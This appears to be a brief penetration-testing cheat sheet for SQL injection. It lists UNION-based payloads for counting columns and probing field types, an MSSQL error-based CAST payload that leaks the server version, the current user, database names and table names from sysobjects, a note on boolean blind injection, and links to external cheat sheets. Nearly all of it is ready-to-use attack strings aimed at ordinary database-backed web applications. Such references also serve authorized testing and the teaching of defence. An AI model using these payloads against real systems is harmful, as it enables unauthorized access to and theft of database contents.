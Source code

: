 ## In-band
#### UNION
* `99999999 UNION SELECT NULL<, NULL,...>; -- -` - detect number of fields in query
* `99999999 UNION SELECT 1<, NULL,...>; -- -` - detect field type
* `99999999 UNION SELECT 'a'<, NULL,...>; -- -` - detect field type

## Error-based
#### CAST
* `99999999 or 1 in (Select Top 1 CAST(<fieldname> as varchar(4096)) <from <TableName> where <fieldname> not in (<list>)>)`
    * fieldname: `@@version`, `user_name()`, `db_name(0)-(99..)`
          * `...CAST(name as varchar(4096)) FROM <database-name>..sysobjects where xtype='U' and name not in (<known-table-list>)`

## Blind
#### Boolean-Based
* trigger True/False statements

## Cheatsheets
* https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

